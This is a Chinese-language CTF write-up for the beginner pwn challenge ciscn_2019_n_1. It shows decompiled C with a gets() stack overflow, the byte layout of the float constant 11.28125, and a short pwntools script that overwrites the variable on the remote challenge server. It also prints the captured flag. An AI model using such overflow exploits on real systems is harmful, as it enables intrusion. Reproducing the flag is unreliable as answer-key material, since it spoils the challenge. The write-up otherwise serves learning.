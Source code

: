 # ciscn_2019_n_1

[题目地址](https://buuoj.cn/challenges#ciscn_2019_n_1)

这题1分。然而知识点我竟然不知道。白学了。

程序本身很简单，关键函数func如下。

```c
void func(void)

{
  char local_38 [44];
  float local_c;
  
  local_c = 0.0;
  puts("Let\'s guess the number.");
  gets(local_38);
  if (local_c == _DAT_004007f4) {
    system("cat /flag");
  }
  else {
    puts("Its value should be 11.28125");
  }
  return;
}
```

这都会吧，溢出变量更改指定值。然而我却卡在了小数的16进制表示上，11.28125我怎么发送啊，pwntools用p64只能打包整数。不过if语句指示local_c应该和_DAT_004007f4相同。

```
                             DAT_004007f4                                    XREF[2]:     func:004006a7(R), 
                                                                                          func:004006b5(R)  
        004007f4 00              ??         00h
        004007f5 80              ??         80h
        004007f6 34              ??         34h    4
        004007f7 41              ??         41h    A
```

发现DAT_004007f4值为0x413480。因为小端，从后往前读，同时这里是不足8位的，所以自己加几个\x00补齐。然而这次的\x00竟然是补在后面而不是平常的前面。

```python
from pwn import *
payload=b'a'*(0x38-0xc)+p64(0x41348000)
p=remote("node4.buuoj.cn",27381)
p.sendline(payload)
p.interactive()
```

看大佬的[wp](https://blog.csdn.net/tqydyqt/article/details/104974202)有介绍一种用代码求得内存的方法。我的c语言真的不行啊。

### Flag
- flag{9649cb03-3231-49c5-b746-183620e2ae4c}